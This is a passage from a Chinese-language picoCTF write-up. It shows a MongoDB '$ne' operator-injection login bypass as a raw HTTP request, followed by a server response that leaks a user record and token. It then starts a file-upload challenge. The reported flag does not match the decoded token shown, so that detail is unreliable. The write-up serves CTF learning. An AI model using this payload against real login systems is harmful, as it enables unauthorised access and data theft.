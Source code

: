 #### 2. \ "繞過特殊字元
" 在MongoDB屬於特殊字元，可用\ bypass
```POST
POST /api/login HTTP/1.1
Host: atlas.picoctf.net:61553
Content-Length: 58
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://atlas.picoctf.net:61553
Referer: http://atlas.picoctf.net:61553/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-TW,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

{"email":"{\"$ne\":  \"\"}","password":"{\"$ne\":  \"\"}"}
```
![image](https://hackmd.io/_uploads/B1R51Pe0T.png)
```response
HTTP/1.1 200 OK
vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Accept-Encoding
content-type: text/plain;charset=UTF-8
date: Thu, 14 Mar 2024 10:19:36 GMT
connection: close
Content-Length: 237

[{"_id":"65f08d5715535af6a1394524","email":"joshiriya355@mumbama.com","firstName":"Josh","lastName":"Iriya","password":"Je80T8M7sUA","token":"cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uX2UzMWVmMzI0fQ==","__v":0}]
```

### GET FLAG
>cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uX2UzMWVmMzI0fQ==

(Base64 Decode)\
![image](https://hackmd.io/_uploads/rkaEMvgAp.png)

**FLAG:picoCTF{#0TP_Bypvss_SuCc3$S_e1eb16ed}**

## Trickster
![image](https://hackmd.io/_uploads/SkUqBQyA6.png)
http://atlas.picoctf.net:63080/ \
![image](https://hackmd.io/_uploads/B1airX1Ra.png)
### Trickster Solution
上傳成功只會顯示:
> File uploaded successfully and is a valid PNG file. We shall process it and get back to you... Hopefully
